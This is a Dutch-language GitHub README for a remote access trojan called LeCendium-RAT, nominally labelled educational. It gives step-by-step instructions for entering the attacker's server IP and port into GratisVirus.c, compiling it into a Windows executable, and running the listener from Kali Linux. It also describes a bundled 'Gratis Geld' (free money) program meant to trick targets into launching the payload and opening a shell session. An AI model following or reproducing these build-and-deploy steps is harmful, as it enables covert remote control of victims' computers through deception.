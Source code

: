 # LeCendium-RAT
- Deze RAT (Remote Administration Tool) is gemaakt voor educatieve doeleinden.

### Beschrijving
LeCendium zichzelf is gemaakt in C. Het bijgeleverde 'Gratis Geld' programma, is maar een eenvoudig voorbeeld hoe je deze RAT kan inzetten.
Het 'Gratis Geld' programma is gemaakt in C#. Ook hier zijn de code bestanden van beschikbaar.

### Vereisten voor gebruik
- Notepad++ of een IDE.
- MinGW
- Windows 7+ met administrator rechten.

### Editen naar persoonlijke voorkeuren
- Voor het editen naar persoonlijke voorkeuren, heb je de bovenstaande vereisten nodig.

- Open GratisVirus.c met jouw IDE (Sublime Text, Atom, etc)
- Verander de volgende 2 regels naar jouw ServerIP en Port voor connectie.
- Regel 143: ` ServIP = "192.168.198.130";`
- Regel 144: ` ServPort = 4444;`
- Stop de GratisVirus.c file in de bin directory van mingw32.

- Wanneer je klaar bent met het editen van deze gegevens, open je CMD (ALS ADMINISTRATOR)
- Change Directory naar de bin van MinGW. (` cd C:\Program Files (x86)\mingw-w64\i686-8.1.0-posix-dwarf-rt_v6-rev0\mingw32\bin`
- Voer in CMD het volgende in : ` gcc GratisVirus.c naamvanexebestand -lwininet -lwsock32` (Dit maakt een .exe bestand van de .c file)
De gebruiker of (target), zal dit .exe bestand moeten openen om een shellsessie te creëren.

### Gebruik maken van LeCendium
- Open jouw Linux distributie. (Kali Linux wordt in de video gebruikt).
- Open de Teriminal
- Clone de files van deze repository : `$ git clone https://github.com/1ncendium/LeCendium-RAT.git`
- Change directory naar LeCendium-RAT/ `cd LeCendium-RAT`
- Export de C file: `gcc LeCendium.c -o LeCendium`
- Run LeCendium `./LeCendium`

#### Note:
Wanneer je de exe file aanpast van GratisVirus.exe naar jouw eigen naam.exe, en het meegeleverde GratisGeld programma hierbij wilt gebruiken, moet je het GratisGeld programma wijzigen. Dit doe je met Visual Studio.

- Verander in het bestand 'GeldProgramma/FreeSpyWare2019/Form1.cs' regel 34 aan:
- ` string file = @"GeldVirus.exe";` Naar jouw bestandsnaam.exe.
